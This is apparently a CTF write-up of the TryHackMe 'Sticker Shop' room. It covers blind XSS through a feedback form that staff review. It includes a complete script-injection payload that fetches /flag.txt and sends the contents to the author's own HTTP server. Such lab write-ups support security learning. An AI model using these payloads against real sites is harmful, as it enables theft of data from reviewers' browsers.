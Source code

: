 ```yaml
---
title: "Sticker Shop Writeup"
draft: false
date: 2024-11-30
description: Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!
Tags:
- TryHackMe
- Linux
- Easy
---
```




Firstly, I navigated through and found two sections: HOME and FEEDBACK. When I clicked HOME, it didn't do anything and felt like a static page. When I went to the FEEDBACK page, I found that I could send feedback. So, first, I tried sending some feedback.

Before beginning the room, the challenge said to access `http://10.10.175.14:8080/flag.txt`. So, I visited that path, but I was greeted with a 401 Unauthorized error.
![](1.png)
So, I came back to the FEEDBACK section to look through what I could do!
![](2.png)
I tried HTML tags first, but I didn't get anything on the page. Then I noticed the message we got after sending feedback: `It will be evaluated shortly by our staff.` Suddenly, I thought, what if I send malicious payload throught it . Their will be high chances  someone with higher privileges reviewed the malicious payload I sent? The answer would be that it would get executed, right? So, I thought, why not try Blind XSS? I went and looked for Blind XSS payloads on GitHub and found one. I crafted it specifically for my needs.

Before starting, I set up a Python HTTP server, which hosted on the default port 8000 using the command:


```
python -m http.server
```

Before trying the payload, I checked my IP using `ipconfig`.
![](3.png)
Then, I tried some payloads using my Python HTTP server, and I got a hit. The command I used was:

```
'"><script src=http://10.17.32.192:8000/script-tag></script>
```
![](4.png)
We successfully got a request hit! So now, I tried figuring out how I could read the file. After some tries, I crafted a specific payload, and it looked like this:

```
"><script>
fetch('/flag.txt') // Access the restricted file using a relative path
  .then(response => response.text())
  .then(data => {
    fetch('http://10.17.32.192:8000/?flag=' + encodeURIComponent(data));
  });
</script>
```

And I got the flag!
![](5.png)
But still, there was some work to do before submitting the flag. The flag was URL-encoded! I quickly searched for `URL DECODER` and found the site: `https://meyerweb.com/eric/tools/dencoder/`. Using that, I decoded the flag. The final flag looked like this:
![](6.png)
